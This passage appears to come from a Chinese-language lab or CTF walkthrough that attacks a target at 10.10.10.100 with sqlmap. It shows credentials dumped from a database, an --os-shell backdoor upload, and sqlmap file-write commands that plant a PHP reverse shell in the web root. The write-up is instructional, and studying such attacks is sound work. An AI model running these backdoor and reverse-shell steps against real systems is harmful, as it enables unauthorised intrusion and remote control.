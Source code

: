 > 从ch16.users获取到邮箱和密码 admin@isints.com:killerbeesareflying  
> mysql.user可以获取到两个凭据，解密不出

<2>拿到有账号密码尝试网站登录。  
结果只有一个应该就是网站登录的账号密码，但以ch16.users拿到的用户凭据登录网站是提示WAF拦截，也不能ssh，不是这个方向

[![](assets/1703831504-0db77f02412458c4cb5386e36eb128b4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227163853-5d83b6a4-a493-1.png)

<3> osshell 后门生成  
遇到了个问题，--os-shell 成功生成了后门上传链接/tmpuouvt.php，sqlmap的后门文件tmpbljfd.php也成功上传，[http://10.10.10.100:80/tmpbljfd.php也可以访问。但返回的](http://10.10.10.100/tmpbljfd.php%E4%B9%9F%E5%8F%AF%E4%BB%A5%E8%AE%BF%E9%97%AE%E3%80%82%E4%BD%86%E8%BF%94%E5%9B%9E%E7%9A%84) osshell 输入命令实际并未执行且没有输出。

```plain
--os-shell
```

[![](assets/1703831504-0a6929574166b2bfa08e0b40d48c328d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227163905-64d9243e-a493-1.png)

<4>尝试上传php-reverse-shell（其他简短的反向shell得用5的方法），可以上传到暴露出的目录（/var/www，/var/www/includes，/var/www/blogs/images）或者在nmap生成的后门链接处上传，然后浏览器访问或点击执行反弹shell。

```plain
--file-write='/home/wsec/0X0CpWnOS2/php-reverse-shell443.php' --file-dest='/var/www/php-reverse-shell443.php'
```
